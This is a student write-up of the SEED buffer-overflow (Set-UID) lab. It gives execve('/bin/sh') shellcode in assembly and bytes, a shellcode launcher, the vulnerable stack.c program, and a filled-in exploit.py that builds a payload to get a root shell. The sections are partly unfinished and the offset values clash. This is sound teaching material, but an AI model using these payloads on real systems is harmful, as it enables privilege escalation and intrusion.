





# Seedlab Week #5 (Buffer Overflow Attack Lab, Set-UID Version)


# Question 1

### Initial setup

Before starting the lab we disabled all countermeasures on Ubuntu:

* `sudo sysctl -w kernel.randomize_va_space=0` to disable address space randomization (otherwise, we would need to guess the exact addresses).
* `sudo ln -sf /bin/zsh /bin/sh` as in previous labs, we needed to run this to enable programs executed in a Set-UID process. 

### Task 1: Getting Familiar with Shellcode

#### Step 1 

We learned from this step that *shellcode* is a piece of assembly code that launches a shell. (It cannot be used as a compiled program from C, it must be written in assembly.)

#### Step 2: 32-bit Shellcode

Here is an example of 32-bit shellcode that invokes execve("/bin/sh"). Basically, it will construct all three arguments: `"/bin//sh"`, `argv` with first element `"/bin//sh"` and `0` as 3rd element.

```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"     ; need 4 chars to set 32-bit, and // is same as /
push "/bin"
mov ebx, esp    ; ebx --> "/bin//sh": execve()’s 1st argument

; Construct the argument array argv[]
push eax        ; argv[1] = 0
push ebx        ; argv[0] --> "/bin//sh"
mov ecx, esp    ; ecx --> argv[]: execve()’s 2nd argument

; For environment variable
xor edx, edx    ; edx = 0: execve()’s 3rd argument

; Invoke execve()
xor eax, eax    
mov al, 0x0b    ; execve()’s system call number
int 0x80
```

#### Step 3: 64-Bit Shellcode

Same code as the previous, but in 64-bit.

```asm
xor rdx, rdx        ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’ ; the command we want to run
push rax            
mov rdi, rsp        ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx            ; argv[1] = 0
push rdi            ; argv[0] --> "/bin//sh"
mov rsi, rsp        ; rsi --> argv[]: execve()’s 2nd argument
xor rax, rax
mov al, 0x3b        ; execve()’s system call number
syscall
```

#### Step 4: Invoking the Shellcode

In this task, we were provided with the code call `shellcode.c`, that was generated from assembly code. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;

int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode);    // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                     // Invoke the shellcode from the stack
    return 1;
}
```

After compilation and running this, we can observe that it launches a shell.

<p align="center" justify="center">
  
</p>

In the experiment, if we set the program as SetUID, it will open a shell as `root`.

<p align="center" justify="center">
  
</p>

### Task 2: Understanding the Vulnerable Program

We were provided with code `stack.c`, that has a buffer overflow vulnerability, when we pass 517 bytes from `badfile` to buffer in `bug()` with size `BUFSIZE`. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

To compile the program, we used the provided `Makefile` with the flags `-fno-stack-protector` and `-z execstack` to disable stack smashing detection and making the stack executable during compilation. It also executes the need commands to set the program to `Set-UID` and `admin` as the owner.
As per the instructions in Moodle, we set L1 to 108 (100 + 8 * (our group number -> 1) = 108). 

<p align="center" justify="center">
  
</p>

### Task 3 Launching Attack on 32-bit Program

For this task, we had to edit the file `exploit.py`, run that code to produce a badfile and run the `stack-L1` executable on that file, creating a buffer overflow that would execute a shellcode.
The overall idea would be to read the contents of the file, which causes a buffer overflow that would corrupt other memory regions (including the return address of the `bof` function). By writing shellcode to the memory and making the code return to that region, we would be able to execute the shellcode.  
By analyzing the python file, we can see that there are 4 that can be changed, as depicted on the table below:

| Variable | Meaning |
|:---:|:---|
| **shellcode** | String of code to be used as shellcode, these would correspond to the Assembly instructions that can open a shell program. Ideally, we would like the program to execute this code. |
| **start** | Position where the shellcode would be located in the file (payload), after the specified offset |
| **ret** | Memory address to where we would like to return after the `bof` function execution |
| **offset** | Memory address offset between the start of the file and the position that stores the return address of the function |

1. For the **shellcode** we can just paste the one showed above for 32-addresses.
2. To find the correct offset, we would need to use gdb to analyze the memory addresses of the program.  
  First, we need to get the address of the `$ebp` register, which contains ...  
  Then, we find the memory address of the buffer which was just defined. By subtracting both of them, we are getting the offset corresponding to the function arguments and locally defined variables. In this case, it equals 116.
<p align="center" justify="center">
  
</p>
3. A


```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 10               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcac4             # Change this number 
offset = 120            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

<p align="center" justify="center">
  
</p>

# Question 2


